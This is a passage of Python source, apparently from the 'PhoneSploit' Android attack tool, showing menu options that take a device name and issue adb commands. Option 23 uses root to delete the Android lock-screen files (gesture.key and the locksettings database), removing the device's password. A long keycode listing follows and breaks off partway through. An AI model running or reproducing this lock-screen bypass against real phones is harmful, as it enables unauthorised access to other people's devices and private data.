         os.system("adb -s "+device_name+command)

    elif option == '23':
        print (("[{0}+{1}]Enter a device name.").format(Fore.RED, Fore.WHITE))
        device_name = input(arrow + "phonesploit"+Fore.RED + "(pass_remove) "+Fore.WHITE + "> ")
        print ((Fore.WHITE + "    [{0}+{1}]{1}THE DEVICE NEEDS TO BE ROOTED TO CONTINUE TO EXIT USE CTRL +C THIS IS ALSO UNTESTED").format(Fore.RED, Fore.WHITE))
        print (("     "+connect))
        print (Fore.RED + "******************TRYING TO REMOVE PASS******************")
        os.system("adb -s "+device_name+" shell su 0 'rm /data/system/gesture.key'")
        os.system("adb -s "+device_name+" shell su 0 'rm /data/system/locksettings.db'")
        os.system("adb -s "+device_name+" shell su 0 'rm /data/system/locksettings.db-wal'")
        os.system("adb -s "+device_name+" shell su 0 'rm /data/system/locksettings.db-shm'")
        print (Fore.RED + "******************TRYING TO REMOVE PASS******************")

    elif option == '24':
        print (("[{0}+{1}]Enter a device name.").format(Fore.RED, Fore.WHITE))
        device_name = input(arrow + "phonesploit"+Fore.RED + "(keycode) "+Fore.WHITE + "> ")
        print ('''
0 -->  "KEYCODE_UNKNOWN"
1 -->  "KEYCODE_MENU"
2 -->  "KEYCODE_SOFT_RIGHT"
3 -->  "KEYCODE_HOME"
4 -->  "KEYCODE_BACK"
5 -->  "KEYCODE_CALL"
6 -->  "KEYCODE_ENDCALL"
7 -->  "KEYCODE_0"
8 -->  "KEYCODE_1"
9 -->  "KEYCODE_2"
10 -->  "KEYCODE_3"
11 -->  "KEYCODE_4"
12 -->  "KEYCODE_5"
13 -->  "KEYCODE_6"
14 -->  "KEYCODE_7"
15 -->  "KEYCODE_8"
16 -->  "KEYCODE_9"
17 -->  "KEYCODE_STAR"
18 -->  "KEYCODE_POUND"
19 -->  "KEYCODE_DPAD_UP"
20 -->  "KEYCODE_DPAD_DOWN"
21 -->  "KEYCODE_DPAD_LEFT"
22 -->  "KEYCODE_DPAD_RIGHT"
23 -->  "KEYCODE_DPAD_CENTER"
24 -->  "KEYCODE_VOLUME_UP"
25 -->  "KEYCODE_VOLUME_DOWN"
26 -->  "KEYCODE_POWER"
27 -->  "KEYCODE_CAMERA"
28 -->  "KEYCODE_CLEAR"
29 -->  "KEYCODE_A"
30 -->  "KEYCODE_B"
31 -->  "KEYCODE_C"
32 -->  "KEYCODE_D"
33 -->  "KEYCODE_E"
34 -->  "KEYCODE_F"
35 -->  "KEYCODE_G"
36 -->  "KEYCODE_H"
37 -->  "KEYCODE_I"
38 -->  "KEYCODE_J"
39 -->  "KEYCODE_K"
40 -->  "KEYCODE_L"
41 -->  "KEYCODE_M"
42 -->  "KEYCODE_N"
43 -->  "KEYCODE_O"
44 -->  "KEYCODE_P"